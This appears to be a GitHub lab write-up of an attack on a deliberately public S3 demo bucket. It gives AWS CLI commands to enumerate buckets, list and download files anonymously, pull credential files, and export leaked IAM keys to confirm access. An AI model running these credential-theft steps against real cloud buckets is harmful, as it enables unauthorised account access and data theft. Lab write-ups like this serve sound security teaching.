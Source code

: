 The `vulnerable-bucket-demo` S3 bucket was targeted due to its public read/write access.

1.  **Identify S3 Buckets:**
    Discovered the target S3 bucket using common naming conventions or tools.
    * **Tools:** `AWSBucketDump` (e.g., `python AWSBucketDump.py -D <wordlist> -l buckets.txt`) can be used for broad enumeration.

2.  **Check Bucket Permission:**
    Tested for public listability:
    ```bash
    aws s3 ls s3://vulnerable-bucket-demo --no-sign-request
    ```

![Screenshot From 2025-06-20 01-45-30](https://github.com/user-attachments/assets/0c45da92-24c6-4631-9726-cd7ebbc0a2b9)

    * **Result:** Command succeeded, indicating the bucket is publicly listable.



3.  **List Bucket Contents:**
    Listed all objects in the bucket:
    ```bash
    aws s3 ls s3://vulnerable-bucket-demo --recursive --no-sign-request
    ```
![Screenshot From 2025-06-20 01-45-03](https://github.com/user-attachments/assets/d14d09b6-4186-45b5-88ae-ba9c566b9c96)

![Screenshot From 2025-06-20 01-46-01](https://github.com/user-attachments/assets/f3660e2d-6592-4ee2-bcde-3894c073f5d7)


    * For specific files:
        ```bash
        aws s3 cp s3://vulnerable-bucket-demo/filename.txt . --no-sign-request
        ```

4.  **Download Sensitive Files:**
    Downloaded identified sensitive files:
    ```bash
    aws s3 cp s3://vulnerable-bucket-demo/secret-credentials.txt . --no-sign-request
    aws s3 cp s3://vulnerable-bucket-demo/Alexa-credential.txt . --no-sign-request
    ```


    * **Discovery:** Identified IAM credentials (`AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`), environment variables, and configuration files.

5.  **Analyze Leaked Keys or Credentials:**
    Examined downloaded files (e.g., `.env`, `.json`, `credentials.csv`) for AWS keys.
    * **Example:** `cat secret-credentials.txt` revealing `AWS_ACCESS_KEY_ID=AKIA... AWS_SECRET_ACCESS_KEY=xxxxxxxxxxxxxxx`.
    * **Configuration:** Set them up in the attacker's environment:
        ```bash
        export AWS_ACCESS_KEY_ID=AKIAxxxxxxxx
        export AWS_SECRET_ACCESS_KEY=xxxxxxxxxxxxxxxx
        ```
    * **Test Access:**
        ```bash
        aws sts get-caller-identity
        ```
        * **Result:** Successful `sts get-caller-identity` confirmed valid IAM access.
